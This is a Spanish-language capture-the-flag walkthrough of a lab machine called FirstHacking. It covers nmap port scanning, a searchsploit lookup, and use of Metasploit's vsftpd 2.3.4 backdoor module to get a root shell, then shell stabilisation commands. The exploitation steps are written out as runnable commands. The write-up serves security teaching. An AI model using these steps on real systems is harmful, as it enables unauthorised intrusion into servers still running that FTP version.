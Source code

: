 # FirstHacking (muy fácil)



## Escaneo de puertos

Empezamos escaneando la máquina víctima con **nmap** para ver los puertos que tenga abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
Aquí está el desglose de cada opción:

* ``nmap`` → Es la herramienta que realiza el escaneo de puertos y redes.

* ``-p-`` → Escanea todos los puertos (0-65535).

* ``--open`` → Muestra solo los puertos que están abiertos.

* ``-sT`` → Realiza un escaneo de conexión TCP completa (TCP Connect Scan). Es más lento que el SYN scan (-sS), pero no requiere privilegios de root.

* ``--min-rate 5000`` → Exige que el escaneo se realice con una tasa mínima de 5000 paquetes por segundo, acelerando el proceso.

* ``-vvv`` → Muestra un nivel de detalle muy alto en la salida (modo verbose máximo).

* ``-n`` → No resuelve nombres de dominio (evita consultas DNS).

* ``-Pn`` → No realiza detección de host, asumiendo que el objetivo está activo.

* ``172.17.0.2`` → La dirección IP del objetivo a escanear.

* ``-oG allPorts`` → Guarda la salida en un archivo de texto llamado *allPorts*. **(OPCIONAL)**

![resultado del comando](assets/firsthacking/nmap1.png)

Como puedes ver, solo está abierto el puerto **ftp**. Vamos a escanearlo otra vez con **nmap**, pero esta vez utilizando un conjunto de scripts predeterminado para obtener más información.

```shell
nmap -sCV -p21 172.17.0.2 -oN targeted
```
Aquí está el desglose de cada opción:

* ``nmap`` → Es la herramienta que realiza el escaneo de puertos y redes.

* ``-sC`` → Ejecuta los scripts de detección predeterminados de **nmap** (--script=default). Estos incluyen comprobaciones de vulnerabilidades, autenticación anónima en FTP, etc.

* ``-sV`` → Detecta versiones de los servicios en ejecución en los puertos abiertos.

* ``-p21`` → Escanea únicamente el puerto 21 (FTP).

* ``172.17.0.2`` → La dirección IP del objetivo a escanear.

* ``-oN targeted`` → Guarda la salida en un archivo de texto llamado *targeted*. **(OPCIONAL)**

![resultado del comando](assets/firsthacking/nmap2.png)

Una vez tenemos claro cuales son los puertos vulnerables, pasamos a la acción.
***

## Ataque

De acuerdo a la información obtenida con **nmap**, sabemos que la víctima tiene el puerto **ftp** abierto y que está en la versión **2.3.4**.

Empezamos buscando un **exploit** en [ExploitDB](https://www.exploit-db.com/). Para ello, utilizamos el comando ``searchsploit``.

```shell
searchsploit vsftpd 2.3.4
```

![resultado del comando](assets/firsthacking/searchsploit.png)

¡Parece que a dado resultado! Vemos que hay dos coincidencias.
En realidad, las dos son el mismo exploit, solo que uno está alojado en [Metasploit](https://www.metasploit.com/).

En esta práctica utilizaremos la segunda opción, ya que no hace falta que descarguemos nada.
Para ello, tendremos que abrir primero la consola de **Metasploit**.

```shell
msfconsole
```

![resultado del comando](assets/firsthacking/msfconsole.png)

> Nota: puedes utilizar ``msfconsole -q`` para iniciar en modo silencioso (que no aparezcan mensajes).

Una vez dentro, volvemos a buscar el exploit.

```shell
search vsftpd 2.3.4
```


![resultado del comando](assets/firsthacking/search.png)

Vemos que aparece como la opción 0, por lo que utilizamos el siguiente comando para usarlo.

```shell
use 0
```

Pero aparece un error...

![resultado del comando](assets/firsthacking/use.png)

Vamos a ver el porqué. Para ello utilizamos la opción ``info`` para ver la descripción del exploit.

```shell
info 0
```

Verás que aparecen muchas líneas con información, pero nos centraremos en ***Basic options***.

![resultado del comando](assets/firsthacking/info.png)

¡Claro, nos falta especificar la IP de la víctima!
> Nota: verás que también aparece una variable para establecer el puerto del objetivo, pero en este caso no es necesario, ya que el predeterminado (21) nos sirve.

Utilizando ``set`` podemos darle un valor a las variables que utilicen los exploits.

```shell
set RHOSTS 172.17.0.2
```

Para volver a iniciar el exploit ya solamente hace falta escribir ``exploit``.

```shell
exploit
```

![resultado del comando](assets/firsthacking/exploit.png)

***

## Extra

Te habrás dado cuenta que al estar en la shell, la terminal aparece "vacía". Esto se debe a que necesita tratamiento. Para ello, ejecuta los siguientes comandos:

```shell
script /dev/null -c bash
stty raw -echo
reset xterm
export TERM=xterm
export SHELL=/bin/bash
```

¡Y ya estaría! Si haces ``whoami`` podrás ver como eres **root** :).